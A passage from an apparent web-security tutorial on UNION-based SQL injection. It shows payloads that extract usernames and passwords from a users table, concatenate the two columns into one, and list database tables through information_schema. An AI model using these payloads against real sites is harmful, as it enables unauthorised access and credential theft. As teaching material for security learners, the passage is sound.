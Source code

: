 The resulting query will look like this: 

```sql
SELECT price,name,shop FROM products WHERE CATEGORY = 'GIFTS'UNION SELECT NULL,username,password --AND RELEASED = '1
```

And assuming that it displays the contents on the webpage, the results could look like this: 

| Price | Name | Shop |
| --- | --- | --- |
| 1 | Candy | Barcelona |
| 5 | Flowers | Barcelona |
| 50 | Jeweler’s | Paris |
|  | admin | 12$”Adas8! |
|  | user1 | 122134da!32 |


> What if we only have one column that we can use to display text, but we want to display text from two different columns (like username and password)?
We can use a single returning column to display results from two columns by concatenating them. We can use **||** to concatenate text:
```sql
... UNION SELECT NULL, username || ‘-’ || password FROM users
```
This is going to return columns, the NULL and another one with *username* and *password* in the same column, but divided by a **-.** 
{: .prompt-info}

## Obtaining information about the database

Until now we have been making several assumptions, like the type of database, that there are tables named *users* with *username* and *password* column, etc. 

We can’t assume all of this, but there are ways to know this information. We can use **UNION SELECTS** to ask the database about itself. The databases have well-known predefined tables that we can use to retrieve information. 

For example, if we are against a  PostgreSQL database, we can ask for the name of the tables using the *information_schema.tables* : 

```sql
... UNION SELECT NULL,table_name FROM information_schema.tables --
```

If we are against another type of database, the way to obtain this information will be different. We can also obtain the version of the database, the column names for a specific table, etc. 

I highly recommend [this](https://portswigger.net/web-security/sql-injection/cheat-sheet) cheat sheet. 

# Blind SQL injections
